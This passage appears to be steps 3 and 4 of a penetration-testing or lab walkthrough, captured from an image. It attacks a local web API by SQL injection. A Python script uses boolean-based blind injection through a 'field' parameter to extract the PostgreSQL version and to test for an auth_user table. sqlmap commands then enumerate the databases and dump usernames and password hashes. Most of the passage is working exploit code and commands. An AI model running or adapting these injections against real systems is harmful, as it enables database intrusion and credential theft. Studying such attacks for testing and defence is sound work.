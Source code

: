 **Step 3: Extract Database Schema**

```python
# sqli_exploit.py
import requests
import string
import time

target = "http://localhost:8000/api/v1/projects"

# Use boolean-based blind SQL injection
def check_condition(condition):
    """
    Test a SQL condition via boolean-based blind injection
    """
    payload = f"id') AND {condition}--"
    r = requests.get(target, params={'field': payload})

    # True condition returns normal response
    # False condition returns error or empty
    return r.status_code == 200 and len(r.text) > 100

# Extract database version
print("[*] Extracting database version...")
version = ""
for i in range(1, 20):
    for char in string.ascii_letters + string.digits + '.':
        condition = f"SUBSTRING(version(), {i}, 1)='{char}'"
        if check_condition(condition):
            version += char
            print(f"[+] Version so far: {version}")
            break

print(f"[+] PostgreSQL Version: {version}")

# Extract table names
print("\n[*] Extracting table names...")
condition = "EXISTS(SELECT * FROM information_schema.tables WHERE table_name='auth_user')"
if check_condition(condition):
    print("[+] Found table: auth_user")

# Extract admin password hash
print("\n[*] Extracting admin password hash...")
# This would be a long process, use SQLMap instead
```

**Step 4: Automated Exploitation with SQLMap**

```bash
# Use SQLMap for automated exploitation
python sqlmap/sqlmap.py -u "http://localhost:8000/api/v1/projects?field=id" \
  --batch --level=5 --risk=3

# Enumerate databases
python sqlmap/sqlmap.py -u "http://localhost:8000/api/v1/projects?field=id" \
  --dbs

# Dump user table
python sqlmap/sqlmap.py -u "http://localhost:8000/api/v1/projects?field=id" \
  -D reopt_db -T auth_user --dump

# Expected output: Usernames and password hashes
# admin:pbkdf2_sha256$260000$...
# john_doe:pbkdf2_sha256$260000$...
```
